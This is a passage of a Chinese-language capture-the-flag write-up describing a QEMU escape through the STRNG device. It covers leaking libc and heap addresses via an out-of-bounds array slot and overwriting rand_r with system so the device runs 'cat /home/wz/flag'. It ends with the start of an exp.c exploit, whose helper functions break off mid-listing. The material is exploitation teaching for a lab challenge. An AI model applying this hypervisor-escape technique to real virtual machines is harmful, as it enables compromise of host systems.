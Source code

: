 使用`print *(STRNGState*)($rdi)`输出结构体(是利用完之后停的所有后面是system)

![strng](./3.png)

结构体存放在堆上，后面还有堆地址，可以泄露libc和heap地址。

![heap](./4.png)

这里有个神奇的地方，就是这个数组的空间是`65*4`而不是`64*4`，这个可以通过`srandom`地址减去`64*5`看到。因为`read/write`操作的都是`4字节`，所以我们泄露一个64位地址要用两次，最后部分写`rand_r`为`system`，在`regs[2]`布置好参数，调用mmio_write的`3`分支即可。(我的参数为`cat /home/wz/flag`)

编译命令：
```sh
gcc ./exp.c -m32 -static -o exp
```

### exp.c

偏移为`ubuntu 16.04`的`libc-2.23`中得到的。

```c
#include <sys/io.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/types.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr,uint32_t value)
{
    *((uint32_t *)(mmio_mem+addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem+addr));
}

void pmio_write(uint32_t addr,uint32_t value)
{
    outl(value,addr);
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)(inl(addr));
}

uint32_t pmio_abread(uint32_t offset)
{
    //return the value of (addr >> 2)
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
```